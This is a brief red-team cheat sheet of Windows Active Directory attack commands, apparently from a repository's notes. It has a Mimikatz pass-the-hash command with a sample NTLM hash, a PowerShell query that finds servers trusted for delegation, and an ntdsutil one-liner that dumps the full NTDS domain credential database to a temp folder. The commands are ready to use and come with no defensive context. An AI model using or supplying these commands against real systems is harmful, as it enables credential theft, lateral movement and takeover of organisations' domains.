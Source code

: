 # Red Team

## Mimikatz

### Pass the hash
```
sekurlsa::pth /user:pwnd.user /domain:hackersacademy.local /ntlm:fc525c9683e8fe067095ba2ddc971889 /run:powershell.exe
```

### Discover Servers Configured with Delegation
```
Get-AdComputer -Filter {(TrustedForDelegation -eq $True) -AND (PrimaryGroupID -eq 515) } -Properties TrustedForDelegation, TrustedToAuthForDelegation,servicePrincipalName,Description
```

## NTDSUtil
```
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```
